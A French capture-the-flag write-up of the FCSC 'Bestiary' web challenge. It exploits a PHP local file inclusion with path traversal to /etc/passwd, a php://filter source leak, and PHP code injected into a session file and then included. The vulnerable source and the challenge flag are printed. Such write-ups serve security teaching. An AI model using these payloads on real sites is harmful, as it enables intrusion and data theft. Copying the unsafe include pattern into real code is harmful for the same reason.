





 

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

 

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : 

```make
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd
```



On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.

```make
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```



On décode tout ça en base64 et on obtient le code source la page `index.php` :

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*



On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 

```php
<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>
```  

J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : 

```make
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E
```

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.

```make
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a
```

On affiche les sources et voilà !  



Flag : 

```make
FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}
```